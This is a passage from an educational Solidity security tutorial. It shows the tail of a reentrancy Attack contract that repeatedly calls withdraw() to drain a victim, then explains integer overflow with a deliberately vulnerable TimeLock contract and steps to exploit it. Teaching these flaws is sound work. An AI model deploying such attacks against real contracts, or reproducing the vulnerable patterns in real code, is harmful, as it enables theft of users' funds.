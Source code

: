 ```
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```



# 2. Arithmetic Overflow and Underflow

Code: https://solidity-by-example.org/hacks/overflow/

**Solidity < 0.8**

Integers in Solidity overflow / underflow without any errors

**Solidity >= 0.8**

Default behaviour of Solidity 0.8 for overflow / underflow is to throw an error.

This contract is designed to act as a time vault. \
User can deposit into this contract but cannot withdraw for atleast a week. \
User can also extend the wait time beyond the 1 week waiting period.

1. Deploy TimeLock
2. Deploy Attack with address of TimeLock
3. Call Attack.attack sending 1 ether. You will immediately be able to
   withdraw your ether.

What happened? \
Attack caused the TimeLock.lockTime to overflow and was able to withdraw 
before the 1 week waiting period.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;

contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

        uint amount = balances[msg.sender];
```